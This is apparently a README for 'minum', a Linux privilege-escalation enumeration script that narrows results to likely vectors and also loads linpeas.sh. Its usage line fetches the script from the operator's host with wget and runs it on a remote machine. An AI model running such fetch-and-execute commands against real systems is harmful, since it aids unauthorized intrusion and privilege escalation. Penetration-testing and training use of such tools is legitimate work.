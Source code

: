 # minum : Minimal Enumeration Code

This enumeration for privilege escalation tool, unlike many others, is built towards the idea of finding the top most relevant privilege escalation vectors for its user.
The idea is to prevent throwing a lot of things at the user and let him begin searching for a needle in a haystack.
Instead, it will ask you for your preferable routes throughout its running and will present to the user only the interesting stuff.
Letting you spend more time on exploiting and less time on reading tons of text all over the place.
At the end it will also load for you linpeas.sh automatically in case you want an indepth lookout.

Have fun, and use my tool for good purposes! Educational purposes ONLY !!

P.S

Have some suggestions? Leave an issue and we will be able to look at it and make modifications.

Cheers!

## Usage

You can download the script to the remote machine and run it for you automatically by using:  
`wget <my_ip>:8000/minlinum.sh; chmod +x minlinum.sh; ./minlinum.sh`
